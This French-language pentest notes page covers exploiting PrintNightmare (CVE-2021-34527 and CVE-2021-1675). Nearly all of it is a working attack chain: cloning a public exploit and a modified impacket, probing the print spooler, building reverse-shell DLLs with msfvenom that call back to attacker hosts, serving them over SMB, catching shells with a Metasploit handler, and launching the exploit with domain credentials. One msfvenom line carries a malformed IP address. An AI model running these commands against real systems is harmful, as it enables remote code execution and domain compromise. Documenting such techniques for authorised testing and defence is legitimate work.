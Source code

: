 ```yaml
---
public: true # set to true to make the article publishable
---
```


|  |  |
| --- | --- |
| CVE | [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) et [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) |
| Correctif fixant la vulnérabilité | CU 2021-06 et 2021-07 |

## Eléments nécessaires à l'exploitation

- Machine non patchée
- Spooler d'impression démarré (par défaut toutes les machines)

## Exploitation

### Installation de l'outil

```shell
git clone https://github.com/cube0x0/CVE-2021-1675.git

## Nécessite une version modifiée d'impacket
pip3 uninstall impacket # désinstallation d'impacket
git clone https://github.com/cube0x0/impacket # installation de la version modifiée
cd impacket
python3 ./setup.py install
```

### Vérification de la disponibilité du spooler

```shell
rpcdump.py @$TARGET_IP | egrep 'MS-RPRN|MS-PAR'
```

### Exécution de l'attaque

```shell
# Creation d'un reverse shell au format DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.172.16.5.225 LPORT=443 -f dll > shell.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=1234 -f dll > bad.dll
# Partage de la dll
sudo 
smbserver.py -smb2support CompData  . &

# Exécution du multi handler depuis msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACK_IP
set LPORT 1234
run

# Déclenchement de l'exploit
sudo python3 CVE-2021-1675.py domain.local/$AD_USER:$AD_PASSWORD@$TARGET_IP '\\ATTACK_IP\ShareName\bad.dll'
```
